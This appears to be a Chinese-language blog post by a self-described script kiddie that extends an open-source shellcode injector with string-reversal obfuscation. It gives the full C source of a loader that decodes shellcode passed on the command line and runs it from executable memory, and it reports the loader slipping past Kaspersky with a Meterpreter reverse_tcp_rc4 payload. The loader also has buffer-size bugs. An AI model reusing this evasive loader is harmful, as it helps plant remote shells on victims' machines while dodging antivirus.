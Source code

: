 # --------------------

## 简介

我也不想写什么花里胡哨的东西，就让我水一篇吧。

就继续延用这玩意把[SimpleShellcodeInject](https://github.com/DimopoulosElias/SimpleShellcodeInjector)，我还挺喜欢用这种shellcode传入方式的，让我们在这个基础上添加功能吧。

为了节省我们的时间就随便加一个能自动化实现的shellcode混淆方式\(偷懒，手动狗头\)，就直接添加一个字符串翻转吧。

## 思路

直接python一行代码翻转字符串。

![](../.gitbook/assets/image%20%28145%29.png)

在加载器内翻转字符串。

```text
    int p = 0;

    for (int i = strlen(str) - 1; i >= 0; i--)
    {
        temp[p++] = str[i];
    }
```

然后执行老哥的ssi，这里遇到一个坑，tm的vc6根本没有malloc\(略略略\)。

然后请出我们的卡巴斯基。

![](../.gitbook/assets/image%20%28148%29.png)

虽然我们古典主义脚本小子特别喜欢弹窗\(更多时候弹calc\)，这里我们再测一下Meterpreter。

防止在流量检测的时候被杀掉，我们使用windows/meterpreter/reverse\_tcp\_rc4这个payload。

![](../.gitbook/assets/image%20%28147%29.png)

![](../.gitbook/assets/image%20%28146%29.png)

略略略。

## 代码

```text
// hex.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"




int main(int argc, char* argv[]) {

    char *str = argv[1];
    

    unsigned int char_in_hex;
    
    unsigned int iterations = strlen(str);
    unsigned int memory_allocation = strlen(str) / 2;

    char* temp = (char*)VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    int p = 0;

    for (int i = strlen(str) - 1; i >= 0; i--)
    {
        temp[p++] = str[i];
    }

    char* shellcode = (char*)temp;

    for (i = 0; i < iterations - 1; i++) {
        sscanf(shellcode + 2 * i, "%2X", &char_in_hex);
        shellcode[i] = (char)char_in_hex;
    }


    void* exec = VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    memcpy(exec, shellcode, memory_allocation);
    VirtualProtect(exec, memory_allocation, PAGE_EXECUTE, NULL);

    (*(void (*WINAPI)()) exec)();

    return 0;
}

```


